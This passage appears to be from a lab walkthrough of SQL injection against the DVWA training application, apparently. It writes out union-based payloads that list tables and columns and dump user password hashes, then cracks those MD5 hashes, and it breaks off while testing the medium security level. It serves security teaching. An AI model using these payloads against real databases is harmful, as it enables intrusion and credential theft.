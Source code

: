 <div style="text-align:left"><img style="max-width:40%;height:auto;" src="https://i.loli.net/2021/04/20/ahjTktcDROWX63z.png"></div>

#### Get the name of the table in the current database

Command `' union select 1, group_concat(table_name) from information_schema.tables where table_schema=database() #'`, the return result is as shown below

![image-20210420215005573](https://i.loli.net/2021/04/20/2n4Iiz9tDVLlmFk.png)

#### Get the field name in the table

The command `'union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users'#` returns the result as shown below. There are fields such as `user_id`, `first_name`, `user` and `password` in the table.

![image-20210420215005573](https://i.loli.net/2021/04/20/jw5hfxT8bsSOg6d.png)

#### Try to get `user` and `password`

Enter the command and the result will be returned as shown in the figure

```sql
' union select user, password from users #
```

<div style="text-align:left"><img style="max-width:40%;height:auto;" src="https://i.loli.net/2021/04/22/iAZYdU9FTk35woa.png"></div>

#### Try to crack the password

The password has 3 digits in total. Guess its md5 hash value. With the help of the md5 hash value query website http://pmd5.com, you can quickly parse the password as follows

```
5f4dcc3b5aa765d61d8327deb882cf99--password
e99a18c428cb38d5f260853678922e03--abc123
8d3533d75ae2c3966d7e0d4fcc69216b--charley
0d107d09f5bbe40cade3de5c71e9e9b7--letmein
5f4dcc3b5aa765d61d8327deb882cf99--password
```

#### View page source code

Click `View Source` in the lower right corner to view the source code

<div style="text-align:left"><img style="max-width:80%;height:auto;" src="https://i.loli.net/2021/04/22/u7KxmMdU2wj9LNo.png"></div>

### medium security level

#### Determine whether there is injection and whether the injection is character type or numeric type

Use Burpsuite to capture packets and change the parameter id to: `1' or 1=1#`, as shown in the figure

![image-20210422200815904](https://i.loli.net/2021/04/22/2RDCagxl1WNeI5L.png) returns error information, as shown in the figure below
